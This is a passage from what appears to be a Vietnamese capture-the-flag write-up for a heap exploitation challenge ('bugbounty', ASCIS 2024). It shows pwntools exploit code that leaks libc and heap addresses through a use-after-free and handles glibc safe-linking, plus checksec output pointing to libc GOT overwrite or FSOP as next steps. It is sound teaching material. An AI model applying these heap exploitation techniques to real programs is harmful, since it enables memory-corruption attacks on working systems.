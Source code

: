 ```python
def delete(idx):
    p.sendlineafter(b'choice: ',b'2')
    p.sendlineafter(b'Index: ',f'{idx}'.encode())

def read_note(idx,size,data): 
    p.sendlineafter(b'choice: ',b'3')
    p.sendlineafter(b'Index: ',f'{idx}')
    p.sendlineafter(b'Size: ',f'{size}')
    p.send(data)

def print_note(idx):
    p.sendlineafter(b'choice: ',b'4')
    p.sendlineafter(b'Index: ',str(idx).encode())

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)
add(0,0x450)  #0 leak libc
add(1,0x40)   #1 leak heap
add(2,0x40)   #2 leak heap
add(3,0x20)
```

- tiếp theo đơn giản là ta sẽ free chunk `0` để lấy libc_address và chunk `2` và chunk `1` để lấy địa chỉ heap  

```python
delete(0)
print_note(0)
p.recvuntil(b'Data: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) -  0x21ace0
log.info(f'leak libc: {hex(libc.address)}')
delete(2)
delete(1)

print_note(2)
p.recvuntil(b'Data: ')
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')
```

- mặc dù GOT ở bài này `Full RELRO` , tuy nhiên GOT của libc thì  chỉ là `Partial RELRO` thôi nên ta hoàn toàn có thể target thằng này được , ngoài ra ta cũng có thể attack `FSOP` 
```cs
ploi@PhuocLoiiiii:~/pwn/ascis-2024/ascis-pwn/bugbounty$ checksec libc.so.6
[*] '/home/ploi/pwn/ascis-2024/ascis-pwn/bugbounty/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
```
